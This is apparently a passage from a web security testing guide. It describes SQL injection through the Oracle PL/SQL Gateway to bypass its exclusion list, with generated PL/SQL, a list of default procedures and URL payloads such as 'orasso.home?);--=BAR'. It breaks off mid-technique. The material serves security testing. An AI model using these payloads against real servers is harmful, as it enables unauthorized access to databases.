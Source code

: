 Notice lines 19 and 24. On line 19, the user’s request is checked against a list of known "bad" strings, i.e., the exclusion list. If the requested package and procedure do not contain bad strings, then the procedure is executed on line 24. The XYZ parameter is passed as a bind variable.

If we then request the following:

`http://server.example.com/pls/dad/INJECT'POINT`

the following PL/SQL is executed:

`..`
`18  simple_list__(7) := 'htf.%';`
`19  if ((owa_match.match_pattern('inject'point', simple_list__, complex_list__, true))) then`
`20   rc__ := 2;`
`21  else`
`22   null;`
`23   orasso.wpg_session.init();`
`24   inject'point;`
`..`

This generates an error in the error log: “PLS-00103: Encountered the symbol ‘POINT’ when expecting one of the following. . .” What we have here is a way to inject arbitrary SQL. This can be exploited to bypass the exclusion list. First, the attacker needs to find a PL/SQL procedure that takes no parameters and doesn't match anything in the exclusion list. There are a good number of default packages that match this criteria, for example:

`JAVA_AUTONOMOUS_TRANSACTION.PUSH`
`XMLGEN.USELOWERCASETAGNAMES`
`PORTAL.WWV_HTP.CENTERCLOSE`
`ORASSO.HOME`
`WWC_VERSION.GET_HTTP_DATABASE_INFO`

An attacker should pick one of these functions that is actually available on the target system (i.e., returns a `200 OK` when requested). As a test, an attacker can request

`http://server.example.com/pls/dad/orasso.home?FOO=BAR`

the server should return a `404 File Not Found` response because the orasso.home procedure does not require parameters and one has been supplied. However, before the 404 is returned, the following PL/SQL is executed:

`..`
`..`
`if ((owa_match.match_pattern('orasso.home', simple_list__, complex_list__, true))) then`
`rc__ := 2;`
`else`
`null;`
`orasso.wpg_session.init();`
`orasso.home(FOO=>:FOO);`
`..`
`..`

Note the presence of FOO in the attacker’s query string. Attackers can abuse this to run arbitrary SQL. First, they need to close the brackets:

`http://server.example.com/pls/dad/orasso.home?);--=BAR`
